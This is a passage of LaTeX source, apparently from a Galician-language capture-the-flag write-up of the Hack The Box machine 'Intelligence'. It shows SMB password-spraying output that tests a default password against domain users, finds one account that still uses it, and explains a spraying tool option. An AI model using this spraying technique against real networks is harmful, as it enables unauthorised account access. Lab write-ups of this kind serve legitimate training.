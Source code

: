 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=Usuario/s con contrasinal por defecto, linewidth=18.7cm]
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Stephanie.Young:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Teresa.Williamson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Thomas.Hall:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Thomas.Valenzuela:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Travis.Evans:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Veronica.Patel:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE\end{lstlisting}
        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=green!80!black,
  title=De Interese,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
        \centering
Coa opción \textbf{--continue-on-success} aínda que atope coincidencias segue probando co resto de usuarios.
\end{tcolorbox}


Entón atopamos que o usuario \textbf{Tiffany.Molina} non modificou o contrasinal por defecto:
        \begin{lstlisting}[language=Bash, caption=Usuario/s con contrasinal por defecto]
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876\end{lstlisting}

        \clearpage
        \subsubsection{Flag user.txt}
        \vspace{0.2cm}
\end{document}
